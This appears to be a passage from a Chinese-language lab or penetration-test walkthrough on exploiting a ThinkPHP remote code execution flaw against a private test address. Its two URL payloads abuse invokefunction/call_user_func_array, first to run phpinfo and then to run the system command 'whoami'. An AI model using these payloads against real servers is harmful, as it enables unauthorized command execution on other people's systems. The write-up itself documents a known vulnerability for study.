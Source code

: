 这里打出phpinfo

```
192.168.1.132/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
```

<img src="image/image-20240409170216654.png" alt="image-20240409170216654" style="zoom:67%;" />

传参看一下当前权限

```
192.168.1.132/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami
```
